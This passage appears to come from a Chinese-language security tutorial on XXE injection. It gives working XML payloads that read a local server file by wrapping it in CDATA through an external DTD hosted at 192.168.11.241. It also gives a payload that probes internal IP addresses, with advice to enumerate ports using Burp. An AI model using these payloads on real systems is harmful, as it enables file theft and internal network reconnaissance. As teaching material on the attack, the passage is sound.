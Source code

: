 这时候就需要借助CDATA，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记。

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///var/www/html/farmsec.php">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://192.168.11.241/farm.dtd">
%dtd; ]>
<roottag>&all;</roottag>
```

在另一台服务器或者本服务器的/var/www/html目录创建一个farm.dtd(也可以用Python的httpserver：``python –m SimpleHTTPServer 80``),内容如下

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```

![img](../../images//f6b15c6895f0fff5391c07020cc7ce1e.png)

### 2. 内网ip探测

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.11.2"> ]>
<creds>&goodies;</creds>
```

根据响应的时间的长短判断ip是否存在，可以通过burp爆破模块遍历端口
